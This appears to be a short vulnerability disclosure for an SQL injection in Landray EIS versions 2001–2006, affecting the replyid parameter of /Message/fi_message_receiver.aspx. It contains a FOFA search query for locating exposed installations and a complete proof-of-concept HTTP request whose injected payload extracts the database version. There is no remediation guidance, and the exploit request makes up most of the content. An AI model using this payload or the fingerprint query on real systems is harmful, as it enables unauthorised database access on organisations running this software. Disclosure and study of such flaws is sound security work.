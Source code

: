 
## PRODUCT

landray EIS
## fofa
```
body="/Scripts/jquery.landray.dialog.js"
```


## Vendor of Product

https://www.landray.com.cn/

## VERSION

EIS 2001-2006

## Vulnerability Type

SQL injection

## Description
Vulnerabilities classified as fatal have been found in Landray EIS 2001 through 2006. This vulnerability affects the component API interface file/Message/fi_message_receiver.aspx? replyid parameter of replyid. Manipulation on the replyid parameter causes SQL injection



## POC：
```
GET /Message/fi_message_receiver.aspx?replyid=1%20and%201=@@version--+ HTTP/1.1
Host: 127.0.0.1
Accept-Language: zh-CN
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.183 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: Lang=zh-cn; ASP.NET_SessionId=hrqq2u554a1zlurqqbuegun0
Connection: keep-alive
```
![fea5919b954e1f629e312262c0e178d2](https://github.com/user-attachments/assets/7542765c-17d1-4bac-8b5e-507cb816d127)



official website
https://www.landray.com.cn/




